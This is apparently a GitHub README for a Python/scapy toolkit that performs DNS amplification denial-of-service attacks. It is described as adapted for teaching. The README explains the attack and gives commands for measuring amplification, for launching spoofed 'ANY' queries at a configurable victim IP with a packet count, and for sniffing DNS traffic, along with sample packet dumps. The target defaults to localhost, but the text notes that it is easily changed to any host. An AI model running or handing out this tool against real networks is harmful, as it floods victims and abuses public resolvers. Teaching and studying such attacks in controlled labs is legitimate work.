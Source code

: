 DNS Amplification attack
===
Customization of the repository of tony2037
[github-Dns-Amplification-Attack](https://github.com/tony2037/Dns-Amplification-Attack)

Some adaptations have been made for easier deployment and more flexible use in an educational setting.

# How does it work ?
According to [DNS Amplification Attack](https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/) :

1. The attacker uses a compromised endpoint to send UDP packets with spoofed IP addresses to a DNS recursor. The spoofed address on the packets points to the real IP address of the victim.
2. Each one of the UDP packets makes a request to a DNS resolver, often passing an argument such as “ANY” in order to receive the largest response possible.
3. After receiving the requests, the DNS resolver, which is trying to be helpful by responding, sends a large response to the spoofed IP address.
4. The IP address of the target receives the response and the surrounding network infrastructure becomes overwhelmed with the deluge of traffic, resulting in a denial-of-service.

![](https://i.imgur.com/2LJ8JU4.png)

# Experience
## Explanation
This package is a standalone toolkit based on **python scapy** which send a **UDP/IP** packet carry a **DNS** packet with **DNS Resource Record** packet. The scapy library is included in the repository to ensure compatibility with virtually any host that can run Python. This also reduces the number of steps needed to get started.
The default `destination` is `8.8.8.8`, which is well-known **google DNS server**.
The default `target address` is local, but can be easily changed to any target in the arguments

## Usage
### Clone repository
```shell
git clone https://github.com/Ezecheel/Dns-Amplification-Attack
```
### Reconnaissance to check amplification
```shell
sudo python DAA_recon.py -D _destination_IP_ -q _queryname_ -qt _id of query type_
```
**destination_IP** is the IP address of the DNS server to which the request will be sent, default is 8.8.8.8
**queryname** is the domainname for which the record will be requested, default is google.com
**id of query type** is the id number of the record type that will be requested, default is 255 (ALL)

TYPE            value and meaning

A               1 a host address

NS              2 an authoritative name server

MD              3 a mail destination (Obsolete - use MX)

MF              4 a mail forwarder (Obsolete - use MX)

CNAME           5 the canonical name for an alias

SOA             6 marks the start of a zone of authority

MB              7 a mailbox domain name (EXPERIMENTAL)

MG              8 a mail group member (EXPERIMENTAL)

MR              9 a mail rename domain name (EXPERIMENTAL)

NULL            10 a null RR (EXPERIMENTAL)

WKS             11 a well known service description

PTR             12 a domain name pointer

HINFO           13 host information

MINFO           14 mailbox or mail list information

MX              15 mail exchange

TXT             16 text strings

for a more complete list see: https://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml

### Launch attack
```shell
sudo python DAA.py -D _destination_IP_ -T _target_IP_ -q _queryname_ -qt _id of query type_ -n _number of packets_
```
for **destination_IP**, **queryname** and **id of query type** see above.
**target_IP** is the IP address of the target machine to which the DNS replies should be sent, default is 127.0.0.1
**number of packets** is the number of DNS queries that should be sent as part of simulated attack, default is 1

### Listen to DNS traffic
```shell
sudo python snifffer.py
```
This returns all DNS packets that are received on the interface, similar to a Wireshark capture filtered on DNS.
This can serve as an introduction to see which records are being requested and received, including which replies seem sufficiently large to be used as example.
### Snapshot //add snapshots
#### Send packet
```shell
         |###[ DNS Question Record ]### 
         |  qname     = 'qq.com'
         |  qtype     = ALL
         |  qclass    = IN
        an        = None
        ns        = None
        ar        = None

Are you sure you want to attack ? [Y]/NY
.
Sent 1 packets.
```
#### Sniffing
```shell
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 52
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x608a
     src       = 10.1.0.30
     dst       = 8.8.8.8
     \options   \
###[ UDP ]### 
        sport     = domain
        dport     = domain
        len       = 32
        chksum    = 0x9f30
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'qq.com.'
            |  qtype     = ALL
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None
```

